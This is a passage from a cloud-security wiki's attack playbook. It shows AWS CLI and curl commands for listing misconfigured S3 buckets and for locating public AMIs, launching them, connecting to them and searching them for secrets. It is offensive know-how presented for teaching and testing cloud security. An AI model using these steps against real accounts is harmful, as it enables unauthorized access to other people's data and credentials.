 #### Authenticated List and Write[¶](https://hackingthe.cloud/aws/exploitation/Misconfigured_Resource-Based_Policies/exploting_public_resources_attack_playbook/#authenticated-list-and-write "Permanent link")
Misconfiguration: - ACL misconfigured at object level so that only authenticated identities can access the file

`bucket_name="example-bucket" region="region"  # This will not work anymore curl https://$bucket_name.s3.$region.amazonaws.com/  # List bucket contents via authenticated CLI aws s3 ls s3://$bucket_name`

#### S3 Static Website List Unauthenticated[¶](https://hackingthe.cloud/aws/exploitation/Misconfigured_Resource-Based_Policies/exploting_public_resources_attack_playbook/#s3-static-website-list-unauthenticated "Permanent link")
Misconfiguration: - Static website allowing bucket to be listed
`{     "Version": "2012-10-17",     "Statement": [         {             "Sid": "PublicReadGetIndex",             "Effect": "Allow",             "Principal": {                 "AWS": "*"             },             "Action": [                 "s3:ListBucket",                 "s3:GetObject"             ],             "Resource": [                 "arn:aws:s3:::example-bucket",                 "arn:aws:s3:::example-bucket/*"             ]         }     ] }`

`bucket_name="example-bucket" region="region"  # This will return the index.html curl https://$bucket_name.s3-website.$region.amazonaws.com  # Removing the '-website' from the URL will list the files # This works because the bucket is misconfigured curl https://$bucket_name.s3.$region.amazonaws.com  # List bucket contents via CLI authenticated or unauthenticated aws s3 ls s3://$bucket_name`

### AMIs[¶](https://hackingthe.cloud/aws/exploitation/Misconfigured_Resource-Based_Policies/exploting_public_resources_attack_playbook/#amis "Permanent link")
`# Find the target AMI # Mention '--include-deprecated' to make sure you get all results # You'll have to search across every region since AMI is region dependent  # Search by owner account aws --region $region ec2 describe-images --owner 123456789012 --include-deprecated  # Search by description or title aws ec2 describe-images --filter Name="description",Values="*hackingthe.cloud*" --include-deprecated aws ec2 describe-images --filter Name="name",Values="*hackingthe.cloud*" --include-deprecated  # Automatically scan the AMI with cloudshovel # --bucket will specify where to save the files # This will not work if multiple cloudshovel is executed # multiple times in the same environment cloudshovel --region $region --bucket example-bucket ami-example1234567890  # Manual approach # Start an EC2 instance based on the target AMI and save # the instance ID returned # Create a security group that allows all inbound traffic if # you don't already have one and use it here # If the command fails then you might have to use another instance-type like c5.large # You can specify '--no-associate-public-ip-address' if you don't want the instance # to have a public IP, but you'll need a VPC Endpoint to connect to it via # ec2-isntance-connect aws ec2 run-instances --security-group-ids sg-example1234567890 --instance-type t2.micro --image-id ami-example1234567890   # Try to connect to it using EC2 Instance Connect. The instance aws ec2-instance-connect ssh --os-user root --instance-id i-example1234567890 # Search for files and secrets once connected # If the command fails then most likely you'll have to  # use the different method to access the AMI # 1. You can use cloudshovel # 2. Make an EBS Snapshot of the volume(s) and download them with coldsnap  # When you're done you can terminate the instance aws ec2 terminate-instances --instance-ids $instance_id`

### EBS Snapshots[¶](https://hackingthe.cloud/aws/exploitation/Misconfigured_Resource-Based_Policies/exploting_public_resources_attack_playbook/#ebs-snapshots "Permanent link")